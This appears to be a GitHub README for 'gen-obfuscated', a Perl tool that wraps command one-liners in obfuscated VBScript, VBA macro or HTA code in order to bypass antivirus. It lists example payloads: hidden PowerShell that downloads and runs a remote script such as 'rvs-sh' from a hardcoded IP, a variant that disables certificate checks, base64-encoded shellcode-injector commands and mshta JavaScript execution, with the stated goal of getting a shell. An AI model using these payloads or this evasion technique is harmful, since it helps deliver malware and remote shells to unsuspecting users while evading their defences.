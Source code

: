 # gen-obfuscated

### Generate Obfuscated Code
This is a simple perl program that generates obfuscated vbs/vba code
for use in passing a command to cmd /c while bypassing AV.

To set the options you will need to edit the .pl file directly this is not just a
simple program with preset payloads. It's designed to take in any
type of one-liner you can think of passing to "cmd.exe /c".

Made to be used along with the async-client powershell script, but any one-liner
that get's you a shell should work.

Generated Output of an obfuscated command string:

![generated output](http://www.nightowlconsulting.com/pics/string-obfuscation-1.png)


### UPDATE
Now has an interactive user prompt just run it from the terminal.

```
./gen-obfuscated.pl
```
The below can still give you ideas of what commands to run and should help you get started.

```
gen-obfuscated.pl

##[  Options ]
#
# The options are included inside due to the tricky nature of escaping powershell code passed as an
# argument from the bash shell, also I don't need too since now the commands are directly taken from the
# user interactively.

##[ Script Type to generate ]
#
# 1 for vbscript
# 2 for vba macro ---> EXPERIMENTAL large macros can be generated affects still unknown...
# 3 for hta script
#
##[ Encode Your IEX? ]
#
# base64 encoding in Powershell, set to false if you already have a base64 encoded payload or
# you want your iex only obfuscated by ascii code.
#
##[ PowerShell IEX ]
#
# The command you wish to be base64 encoded
# iex (New-Object -ComObject Wscript.Shell).Popup('IEX Decoded and Executed!',0,'Done',0x1)
#
# If you already have a powershell command with encoding, for example this can also be used with the 
# alphanumeric shellcode injector payload generated by the setoolkit, I warn you this will create a 
# very long script upwards of 350 lines...
#
# cmd /c powershell -w hidden -enc <-base64 encoded string-> 
#
# Only use ascii chr function obfuscation
# cmd /c powershell -w hidden -c iex (New-Object System.Net.WebClient).DownloadString('http://192.168.1.110/rvs-sh')
#
# OR
#
# A one-liner that supports a dowloadstring from a https site with a self-signed cert.
# cmd /c powershell.exe -w hidden -c "&{[System.Net.ServicePointManager]::ServerCertificateValidationCallback={$true};iex(New-Object System.Net.Webclient).DownloadString('https://192.168.0.15/client')}"
#
# OR
#
# A command that produces a popup, for testing only using ascii chr function obfuscation
# cmd /c powershell -w hidden -c iex (New-Object -ComObject Wscript.Shell).Popup('IEX Decoded and Executed!',0,'Done',0x1););
#
# OR
#
# A command using javascript to pass commands directly to mshta, for maximum effect use script type 3
# cmd /c mshta "javascript:var sh=new ActiveXObject( 'WScript.Shell' ); sh.Popup( 'Javascript decoded and Executed', 15, 'From gen-obfuscated', 64 );close()");
#
# Be Creative...

```
